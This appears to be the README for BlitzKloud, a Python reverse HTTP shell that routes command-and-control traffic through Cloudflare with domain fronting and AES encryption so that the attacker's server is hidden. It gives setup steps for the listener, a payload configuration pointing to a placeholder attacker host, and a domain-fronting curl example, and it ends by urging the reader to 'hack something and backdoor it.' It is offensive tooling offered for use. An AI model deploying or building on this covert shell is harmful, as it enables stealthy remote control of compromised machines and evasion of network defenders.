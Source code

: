# BlitzKloud
==================

<p> A Cloudflare compatible, SNI/domain fronting compliant Reverse HTTP Shell with built in 
AES encryption. Written in Python3, with dependencies minimized.  </p>
<br>

<p><i> Darkerego 2019 ~ xelectron@protonmail.com ~ https://github.com/darkerego</i></p>


#### Concept



<p>Blitzkloud is a Cloudflare compatible reverse HTTP shell, with SNI 
domain fronting functionality. Because this shell does not yet support HTTPS, 
(and even if it did, remember, Cloudflare is essentially a giant MITM honeypot), the shell 
also has built in support for AES encryption (no external libaries needed for AES with 
the payload because I imported functionality from pyaes directly.).  The goal was to create 
 a pure python3- powered reverse shell with miminal, (eventually no) outside dependencies 
(for portability), which allows the user to conceal the location of his or her
server (where we catch the shell), by both proxying through cloudflare, and hiding DNS 
requests to the destination server employing domain fronting tactics via SNI (server
name indication).
</p>

<p>
This functionality allows an attacker to hide their c&c server's ip and (to some extent) 
 domain, proxying commands and output through Cloudflare's global CDN, thus not revealing 
the IP address of your server. The shell also provides some obfuscation 
by exploiting Cloudflare's SNI bug/|feature domain fronting capabilities -- 
anyone monitoring DNS requests alone will not see the actual URL of your server:
</p>


<p><b>SNI Proof of Concept:</b></p>
<pre>
 $ curl -H "Host: your.remote.host" http://upwork.com
</pre>
<p>
For more details on SNI and domain fronting, see:
https://en.wikipedia.org/wiki/Domain_fronting
</p>


![domain front](domain-front.png)


#### Usage

Requirements:

- VPS Server
- Cloudflare account
- Domain name (set up to use Cloudflare's CDN.)

<b>Setup & Configuration: </b>

<p>First, you will need an HTTP server that is on Cloudflare's network. Purchase a cheap VPS, we 
do not need anything fancy to run this. You can get one from Digital Ocean for $5 per month. Next, 
you will need a free account with Cloudflare. Finally, you need a domain name. </p>

<p>
Configure your DNS to use Cloudflare's network. Next, install the listener on your server:

<pre>
$ git clone https://github.com/darkerego/blitzkloud
$ cd blitzcloud
$ pip3 install --user -r requirements.txt
</pre>

<p>
Test to make sure that the listener runs and has been installed correctly:
</p>

<pre>
$ python3 ./srv.py
Starting httpd on ('0.0.0.0', 8880)...
</pre>

<p>Note: Cloudflare can proxy HTTP traffic on several different ports including 80, 8080, and 8880.</p>

<p>
Next, configure the server and payload. First, choose a key to encrypt all traffic with using the
built in AES libary. Key length must be a multiple of 16, and the key must be in byte format. 
Edit this line and choose a secure key:
</p>

<pre>
key = b"This_key_for_demo_purposes_only!"
</pre>

<p>This is the only thing that needs to be set in the server.py, however in the payload.py file, the 
following variables must be set:</p>

<pre>
debug = False  # Display errors and output (for debugging)
front_url = 'your.evil.host'  # your c&c server: example: developer.attacker.com
url = 'http://mediafire.com:8880'  # example: http://upwork.com:8880 - (include port of listener if not port 80 (http)
key = b"This_key_for_demo_purposes_only!"  # AES Encryption key - keep private, must be in byte form.
</pre>

<p>
Now, the rest is up to you. Hack something and backdoor it! Because this is Python, it is 
virtually platform agnostic -- in other words, if the target system can run Python3, it can 
run this payload as well.
</p>


#### TODO: 

- Figure out, is domain fronting over HTTPS still possible? If yes, implement
- Consider sending output back as a cookie with a get request instead a post
- Better concealing of payloads - (make traffic look as innocuous as possible)
- Implement command history in shell , OR
- Implement a full PTY over HTTP shell
- Options for packing, obfuscation, compilation
- More details in the README about how this all works
- Port backwards so payload is Python2 compatible
- Eliminate dependencies (like requests), rewrite using raw sockets
  
